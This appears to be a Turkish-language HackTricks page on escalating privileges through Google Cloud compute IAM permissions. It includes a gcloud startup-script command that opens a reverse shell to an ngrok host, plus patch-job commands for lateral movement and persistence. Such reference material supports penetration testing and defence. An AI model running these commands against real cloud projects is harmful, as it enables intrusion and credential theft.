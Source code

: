 # GCP - Hesap Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 **Discord grubuna** katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek katkıda bulunun.

</details>

## Hesaplama

Daha fazla bilgi için GCP'de Hesaplama ve VPC (ağ) hakkında kontrol edin:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için, örneğin, örneğin metadatanın değiştirilmesini gerektiren saldırılar için, **önce örneğe bağlı SA üzerinde `actAs` izinlerine sahip olmanız gerektiğini** unutmayın, hatta SA zaten bağlı olsa bile!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle bir **örneğin** **metadata** bilgilerini **değiştirebilir** ve **bir kullanıcının yetkili anahtarlarını değiştirebilir** veya **sudo yetkilerine sahip yeni bir kullanıcı oluşturabilirsiniz**. Bu nedenle, herhangi bir VM örneğine SSH üzerinden giriş yapabilir ve örneğin çalıştığı GCP Hizmet Hesabını çalabilirsiniz.\
Sınırlamalar:

* VM örneklerinde çalışan GCP Hizmet Hesapları varsayılan olarak **çok sınırlı bir kapsama sahiptir**
* **SSH sunucusuna bağlanabilmelisiniz** giriş yapmak için

Bu izni nasıl sömürüleceği hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Bu saldırıyı yeni başlangıç betiği ekleyerek ve örneği yeniden başlatarak da gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, bir bütün proje yerine belirli örnekler üzerinde aynı ayrıcalıkları verir. Önceki bölümde olduğu gibi aynı zafiyetler ve kısıtlamalar geçerlidir.

### `compute.instances.setIamPolicy`

Bu tür bir izin size önceki izinlerle kendinize rol verme ve bu izinleri kötüye kullanarak ayrıcalıkları yükseltme olanağı sağlar.

### **`compute.instances.osLogin`**

Eğer örnekte **OSLogin etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örneğin içinde **root ayrıcalıklarınız olmayacak**.

### **`compute.instances.osAdminLogin`**

Eğer örnekte **OSLogin etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örneğin içinde **root ayrıcalıklarınız olacak**.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Bir hizmet hesabına atanan bir sanal makine oluşturarak ve hizmet hesabının belirteci çalınarak ayrıcalıkları yükseltmek mümkündür.

Bu yöntemin zafiyet betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinleriniz varsa bir [yama işlemi veya dağıtımı](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, ortamda yatay hareket etmenizi ve bir projedeki tüm hesaplama örneklerinde kod yürütme yetkisi kazanmanızı sağlar.

Bu işlemi manuel olarak kullanmak isterseniz ya bir [yama işlemi](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) ya da [dağıtım](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) oluşturmanız gerekecektir:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Bir yama dağıtımı dağıtmak için:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

[patchy](https://github.com/rek7/patchy) gibi otomatik araçlar, gevşek izinleri tespit etmek ve otomatik olarak yatay hareket etmek için mevcuttur.

**Bu ayrıca kalıcılık için de kötüye kullanılabilir.**

### `compute.machineImages.setIamPolicy`

Kendinize ekstra izinler vermek için makine Görüntüsüne izin verin.

### `compute.snapshots.setIamPolicy`

Disk anlık görüntüsüne ekstra izinler verin.

### `compute.disks.setIamPolicy`

Diske ekstra izinler verin.

### Erişim Kapsamlarını Atlatma

Bu bağlantıyı takip ederek [**erişim kapsamlarını atlamak için denenebilecek bazı fikirler**](../) bulabilirsiniz.

### GCP Hesaplama Örneğinde Yerel Ayrıcalık Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
